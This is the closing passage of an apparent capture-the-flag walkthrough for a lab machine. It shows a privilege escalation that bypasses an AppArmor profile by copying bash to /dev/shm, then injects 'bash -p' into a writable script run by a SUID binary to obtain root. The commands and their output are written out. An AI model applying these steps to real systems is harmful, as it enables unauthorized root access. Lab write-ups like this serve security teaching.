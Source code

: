 This profile restricts us from performing several system tasks for example it restricts us from editing any file in the `/opt` directory with the line `deny /opt/** w,` even if we have the permission to do it. Also the line `  /usr/bin/** mrix,` and  `/usr/sbin/** mrix,` causes any executable launch from this directory to inherit the same restriction. To bypass this, we will have to launch a shell from a directory which does not inherit these restrictions. We can do this by copying a shell binary to a directory we have access to in this case `/dev/shm` and launch the shell from there.
```bash
think@publisher:~$ cp /usr/bin/bash /dev/shm
think@publisher:~$ ls /dev/shm
bash
think@publisher:~$ /dev/shm/bash
think@publisher:~$
```

After we launch the shell from the new directory, we can now leverage the permission we have over the `run_container` script to obtain a shell as the root user. We can do this by adding the line `bash -p` at the top of the script.
```bash
think@publisher:~$ head /opt/run_container.sh 
#!/bin/bash
bash -p
# Function to list Docker containers
<SNIP>

think@publisher:~$ /usr/sbin/run_container 
bash-5.0# whoami
root
bash-5.0# ls /root
root.txt  spip
```
We have successfully obtained a root shell on the target. We can use this access to read the second flag as shown above.

## Conclusion

Congratulations! In this walkthrough, you have exploited the a remote code execution vulnerability in an outdated version of the SPIP CMS to obtain a foothold on the target. Further,more, you leverage some misconfiguration of Apparmor on the system to escalate privileges using a binary with SUID bit set. This machine was designed to show improper patching habits and misconfiguration in operating system services could seriously impact an organisation's security posture. Thanks for following up on this walkthrough.
